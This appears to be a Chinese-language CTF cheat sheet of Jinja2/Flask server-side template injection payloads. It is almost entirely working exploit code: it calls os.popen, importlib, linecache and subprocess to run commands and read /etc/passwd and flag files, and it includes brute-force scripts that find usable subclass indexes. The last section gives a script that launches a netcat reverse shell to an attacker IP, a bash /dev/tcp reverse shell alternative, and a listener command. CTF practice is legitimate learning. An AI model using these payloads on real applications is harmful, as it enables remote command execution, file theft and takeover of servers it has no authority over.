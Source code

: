 #### os模块执行命令
```
通过config,调用os
{{config.__class__.__init__.__globals__['os'].popen('cat flag').read()}}
通过url_for,调用os
{{url_for.__globals__.os.popen('/etc/passwd').read()}}
查询注入模块 _wrap_close或者os
(用查询脚本的修改部分)
data={"post参数":"{{().__class__.__base__.__subclasses__()["+str(i)+"].__init__.globals__}}"}
if 'os.py' in response.text:

payload: {{".__class__.__bases__[0].__subclasses__()[199].__init__.__globals__['os'].popen("ls /").read()}}
```

#### importlib类执行命令
```
查询注入模块 _frozen_importlib.Builtinlmporter
payload: {{[].__class__.__base__.__subclasses__()[69]["load_module"]("os")["popen"]("cat flag").read()}}
```

#### linecache函数执行命令
```
查询注入模块 linecache
(用查询脚本的修改部分)
data={"post参数":"{{().__class__.__bases__[0].__subclasses__()["+str(i)+"].__init__.__globals__}}"}
if 'linecache' in response.text:

payload: {{[].__class__.__base__.__subclasses__()[191].__init__.__globals__.linecache.os.popen("ls -l /").read()}}
```

#### subprocess.Popen类执行命令
```
查询注入模块 subprocess.Popen
payload: {{().__class__.__base__.__subclasses__()[200]("tac flag",shell=True,stdout=-1).communicate()[0].strip()}}
```

### 无回显SSTI
&emsp;&emsp;那有人就要问了，哎呀，题目没有回显怎么办啊，简单~(用脚本无脑都可以)

#### 反弹shell
```
import requests
url = "http://127.0.0.1" #URL
for i in range(300):
    try:
        data = {"post参数":'{{"".__class__.__base__.__subclasses__()['+str(i)+'].__init__.__globals__["popen"]("netcat 192.168.5.51(kaliIP) 7777 -e /bin/bash").read()}}'}
        #或者"bash -i >& /dev/tcp/XXXX(服务器/跳板)/XXXX（端口号） 0>&1"
        response = requests.post(url,data=data)
    except:
        pass
```
&emsp;&emsp;同时kali监听(nc -lnvp 7777)即可。
